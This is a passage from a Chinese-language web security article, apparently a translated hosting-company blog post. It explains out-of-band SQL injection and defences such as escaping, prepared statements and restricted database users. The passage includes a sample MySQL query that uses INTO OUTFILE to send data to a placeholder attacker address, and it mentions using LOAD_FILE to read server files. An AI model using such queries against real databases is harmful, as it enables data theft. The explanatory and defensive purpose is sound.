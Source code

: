 
### 想知道我们是怎么让流量增长超过 1000%的吗？

加入 20，000 多名获得我们每周时事通讯和内部消息的人的行列吧！

[Subscribe Now](#newsletter)

### 带外 SQL 注入

如果攻击者无法通过相同的渠道收集 SQL 注入的结果。带外 SQL 注入技术可以用作推理 SQL 注入技术的替代。

通常，这些技术包括将数据库中的数据发送到攻击者选择的恶意位置。这个过程也高度依赖于数据库管理系统的能力。

带外 SQL 注入攻击使用 DBMS 的外部文件处理功能。在 MySQL 中，LOAD_FILE()和 INTO OUTFILE 函数可用于请求 MySQL 将数据传输到外部源。以下是攻击者可能如何使用 OUTFILE 将查询结果发送到外部源:

```
select * from post_table
into OUTFILE '\\\\MALICIOUS_IP_ADDRESS\location' 
```

类似地，LOAD_FILE()函数可用于从服务器读取文件并显示其内容。可以使用 LOAD_FILE()和 OUTFILE 的组合来读取服务器上的文件内容，然后将其传输到不同的位置。

## 如何防止 SQL 注入

到目前为止，我们已经研究了 web 应用程序中可能导致 SQL 注入攻击的漏洞。攻击者可以利用 SQL 注入漏洞读取、修改甚至删除数据库的内容。

此外，它还可以让人在服务器内的任何位置读取文件，并将内容传输到其他地方。在本节中，我们将探讨各种技术来保护您的 web 应用程序和网站免受 SQL 注入攻击。

### 转义用户输入

一般来说，判断一个用户字符串是否是恶意的是一件困难的事情。因此，最好的方法是对用户输入中的特殊字符进行转义。

这个过程使你免受 SQL 注入的攻击。在使用`mysql_escape_string() function`在 [PHP](https://kinsta.com/blog/is-php-dead/) 中构建查询之前，您可以转义一个字符串。还可以使用`mysqli_real_escape_string()`函数对 MySQL 中的字符串进行转义。

将输出显示为 HTML 时，您还需要转换字符串，以确保特殊字符不会干扰 HTML 标记。您可以使用函数`htmlspecialchars()`转换 PHP 中的特殊字符。

### 使用准备好的语句

或者，您可以使用准备好的语句来避免 SQL 注入。预准备语句是 SQL 查询的模板，您可以在稍后阶段指定参数来执行它。下面是一个用 PHP 和 MySQLi 编写的语句的例子。

```
$query = $mysql_connection->prepare("select * from user_table where username = ? and password = ?");
$query->execute(array($username, $password));
```

### 防止 SQL 攻击的其他安全检查

减轻该漏洞的下一步是将对数据库的访问限制在必要的范围内。

与宕机和 WordPress 问题做斗争？Kinsta 是一款考虑到性能和安全性的托管解决方案！[查看我们的计划](https://kinsta.com/plans/?in-article-cta)

例如，使用只能访问相关数据库的特定用户将 web 应用程序连接到 DBMS。

限制数据库用户对服务器所有其他位置的访问。您可能还希望通过 web 服务器阻止 URL 中的某些 SQL 关键字。如果您使用 [Apache](https://kinsta.com/blog/nginx-vs-apache/) 作为 web 服务器，您可以在您的[中使用下面几行代码。htaccess 文件](https://kinsta.com/knowledgebase/wordpress-htaccess-file/)向潜在的攻击者显示 403 禁止错误。

